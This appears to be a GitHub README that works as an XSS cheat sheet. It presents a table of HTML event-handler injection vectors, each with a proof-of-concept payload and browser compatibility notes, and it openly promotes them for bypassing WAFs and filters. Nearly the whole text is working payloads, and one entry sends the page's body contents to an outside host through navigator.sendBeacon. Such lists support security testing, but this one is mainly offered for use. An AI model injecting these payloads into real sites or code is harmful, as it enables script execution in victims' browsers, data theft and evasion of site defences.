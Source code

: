# XSS-Payloads
This cross-site scripting (XSS) cheat sheet contains many vectors that can help you bypass WAFs and filters. You can select vectors by the event, tag or browser and a proof of concept is included for every vector. 

| Event Handler                       | Description                                         | Example Code                                                                                                           | Compatibility                                         |
|-------------------------------------|-----------------------------------------------------|------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| `onafterscriptexecute`               | Fires after script is executed                     | `<xss onafterscriptexecute=alert(1)><script>1</script>`                                                                | Does not work in Chrome, works in Firefox, does not work in Safari |
| `onanimationcancel`                 | Fires when a CSS animation cancels                  | `<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:10s ease-in-out 0s 1 x;}</style><xss id=x style="position:absolute;" onanimationcancel="print()"></xss>` | Does not work in Chrome, works in Firefox, does not work in Safari |
| `onanimationend`                    | Fires when a CSS animation ends                     | `<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>`                           | Works in Chrome, Firefox, and Safari                |
| `onanimationiteration`              | Fires when a CSS animation repeats                  | `<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert(1)"></xss>` | Works in Chrome, Firefox, and Safari                |
| `onanimationstart`                 | Fires when a CSS animation starts                  | `<style>@keyframes x{}</style><xss style="animation-name:x" onanimationstart="alert(1)"></xss>`                         | Works in Chrome, Firefox, and Safari                |
| `onbeforeprint`                     | Fires before the page is printed                   | `<body onbeforeprint=console.log(1)>`                                                                                   | Works in Chrome, Firefox, does not work in Safari   |
| `onbeforescriptexecute`              | Fires before script is executed                    | `<xss onbeforescriptexecute=alert(1)><script>1</script>`                                                               | Does not work in Chrome, works in Firefox, does not work in Safari |
| `onbeforeunload`                    | Fires if the URL changes                           | `<body onbeforeunload=navigator.sendBeacon('//https://ssl.portswigger-labs.net/',document.body.innerHTML)>`            | Works in Chrome, Firefox, does not work in Safari   |
| `onbegin`                           | Fires when an SVG animation begins                 | `<svg><animate onbegin=alert(1) attributeName=x dur=1s></animate></svg>`                                                | Works in Chrome, Firefox, and Safari                |
| `oncanplay`                         | Fires if the resource can be played                 | `<audio oncanplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>`                                      | Works in Chrome, Firefox, and Safari                |
| `oncanplaythrough`                  | Fires when enough data has been loaded             | `<video oncanplaythrough=alert(1)><source src="validvideo.mp4" type="video/mp4"></video>`                               | Works in Chrome, Firefox, and Safari                |
| `oncuechange`                       | Fires when subtitle changes                        | `<video controls><source src=validvideo.mp4 type=video/mp4><track default oncuechange=alert(1) src="data:text/vtt,WEBVTT FILE 1 00:00:00.000 --> 00:00:05.000 <b>XSS</b> "></video>` | Works in Chrome, does not work in Firefox or Safari |
| `ondurationchange`                  | Fires when duration changes                        | `<audio controls ondurationchange=alert(1)><source src=validaudio.mp3 type=audio/mpeg></audio>`                         | Works in Chrome, Firefox, and Safari                |
| `onend`                             | Fires when an SVG animation ends                   | `<svg><animate onend=alert(1) attributeName=x dur=1s></animate></svg>`                                                   | Works in Chrome, Firefox, and Safari                |
| `onended`                           | Fires when the resource is finished playing        | `<audio controls autoplay onended=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>`                      | Works in Chrome, Firefox, and Safari                |
| `onerror`                           | Fires when the resource fails to load or causes an error | `<audio src/onerror=alert(1)>`                                                                                           | Works in Chrome, Firefox, and Safari                |
| `onfocus`                           | Fires when the element has focus                   | `<a id=x tabindex=1 onfocus=alert(1)></a>`                                                                             | Works in Chrome, Firefox, and Safari                |
| `onfocus(autofocus)`                 | Fires when an element has focus with autofocus       | `<xss onfocus=alert(1) autofocus tabindex=1></xss>`                                                                     | Works in Chrome, Firefox, and Safari                |
| `onfocusin`                         | Fires when the element has focus                   | `<a id=x tabindex=1 onfocusin=alert(1)></a>`                                                                           | Works in Chrome, Firefox, and Safari                |
| `onhashchange`                      | Fires if the hash changes                          | `<body onhashchange="print()">`                                                                                          | Works in Chrome, Firefox, and Safari                |
| `onload`                            | Fires when the element is loaded                   | `<body onload=alert(1)>`                                                                                                | Works in Chrome, Firefox, and Safari                |
| `onloadeddata`                      | Fires when the first frame is loaded               | `<audio onloadeddata=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>`                                   | Works in Chrome, Firefox, and Safari                |
| `onloadedmetadata`                  | Fires when the metadata is loaded                  | `<audio autoplay onloadedmetadata=alert(1)> <source src="validaudio.wav" type="audio/wav"></audio>`                     | Works in Chrome, Firefox, and Safari                |
| `onloadstart`                       | Fires when video is loaded                          | `<video onloadstart="alert(1)"><source></xss>`                                                                          | Works in Chrome, Firefox, and Safari                |
| `onmessage`                         | Fires when message event is received               | `<body onmessage=print()>`                                                                                               | Works in Chrome, Firefox, and Safari                |
| `onpageshow`                        | Fires when the page is shown                       | `<body onpageshow=alert(1)>`                                                                                            | Works in Chrome, Firefox, and Safari                |
| `onplay`                            | Fires when the resource is played                  | `<audio autoplay onplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>`                               | Works in Chrome, Firefox, and Safari                |
| `onplaying`                         | Fires when the resource is playing                 | `<audio autoplay onplaying=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>`                             | Works in Chrome, Firefox, and Safari                |
| `onpopstate`                        | Fires when the history changes                     | `<body onpopstate=print()>`                                                                                              | Works in Chrome, Firefox, and Safari                |
| `onprogress`                        | Fires when the video/audio begins downloading       | `<audio controls onprogress=alert(1)><source src=validaudio.mp3 type=audio/mpeg></audio>`                               | Works in Chrome, Firefox, and Safari                |
| `onrepeat`                          | Fires when a SVG animation repeats                 | `<svg><animate onrepeat=alert(1) attributeName=x dur=1s repeatCount=2 /></svg>`                                          | Works in Chrome, Firefox, and Safari                |
| `onresize`                          | Fires when the window is resized                   | `<body onresize="print()">`                                                                                              | Works in Chrome, Firefox, and Safari                |
| `onscroll`                          | Fires when the page scrolls                        | `<body onscroll=alert(1)><div style=height:1000px></div><div id=x></div>`                                               | Works in Chrome, Firefox, and Safari                |
| `onscrollend`                       | Fires when scrolling ends                          | `<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id=x>test</span></xss>` | Works in Chrome, Firefox, does not work in Safari |
| `onsuspend`                         | Fires when video/audio data loading is suspended   | `<audio controls onsuspend=alert(1)><source src=validaudio.mp3 type=audio/mpeg></audio>`                                | Works in Chrome, Firefox, and Safari                |
| `ontimeupdate`                      | Fires when the timeline is changed                 | `<audio controls autoplay ontimeupdate=alert(1)><source src="validaudio.wav
